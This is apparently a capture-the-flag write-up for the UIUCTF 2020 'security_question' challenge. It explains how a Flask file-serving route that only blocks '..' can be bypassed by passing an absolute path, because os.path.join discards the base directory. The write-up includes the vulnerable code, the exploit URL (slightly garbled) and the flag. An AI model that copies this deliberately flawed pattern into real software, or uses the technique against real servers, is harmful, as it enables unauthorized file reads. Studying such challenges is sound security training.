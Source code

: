# security_question - uiuctf 2020

_Someone just asked a very interesting question online. Can you help them solve their problem?

author: Husincostan_


The challenge link, `https://security.chal.uiuc.tf/`, brings us to a fake
StackOverflow page with the poster complaining that their friend was able to
access the `hidden_poem.txt` file in the root directory (`/`) on the server.

```
@app.route('/getpoem')
def get_poem():
    poemname = request.args.get('name')

    if not poemname:
        return 'Please send a name query:\n' + str(os.listdir('poems')), 404

    poemdir     = os.path.join(os.getcwd(), 'poems')
    poempath    = os.path.join(poemdir, poemname)

    if '..' in poemname:
        return 'Illegal substring detected.', 403

    if not os.path.exists(poempath):
        return 'File not found.', 404

    return send_file(poempath)
```

In this Python code we see a route defined `/getpoem` assigned to the `get_poem()` function.

```
@app.route('/getpoem')
```
We also see `poemname` being assigned as query parameter.

```
poemname = request.args.get('name')
```

If we try the endpoint `https://security.chal.uiuc.tf/getpoem?name` we get the following response:

```
Please send a name query: ['rise.txt', 'daddy.txt', 'tyger.txt', 'road.txt']
```

The Python code that causes the trouble here is in the joining of paths.

```
poemdir     = os.path.join(os.getcwd(), 'poems')
poempath    = os.path.join(poemdir, poemname)
```

In the 2nd line we see that the `poemdir` directory and `poemname` file are
being joined to created a path. If we evalute this line of code in a REPL, we
get the following:

```
>>> import os
>>> poemdir = os.path.join(os.getcwd(), 'poems')
>>> poemdir
'/home/user/poems'
```

We know that `poemdir` is the `poems` subdirectory inside the current working directory. Keep in mind that our interest is in the root `/` directory to get `hidden_poem.txt`.

```
>>> poemname = "poem.txt"
>>> poempath = os.path.join(poemdir, poemname)
>> poempath
'/home/user/poems/poem.txt'
```

Because of the way that `os.path.join()` works, if we set `poemname` to `/hidden_poem.txt`, we won't get:

```
/home/user/poems//hidden_poem.txt
```

Instead we'll just get:

```
/hidden_poem.txt
```

Which is the path we want. We can try passing this in as the query parameter:

`https://security.chal.uiuc.tf/getpoem/name?=/hiddenpoem.txt`

And we get the flag!

```
uiuctf{str_join_is_weird_in_python_3}
```



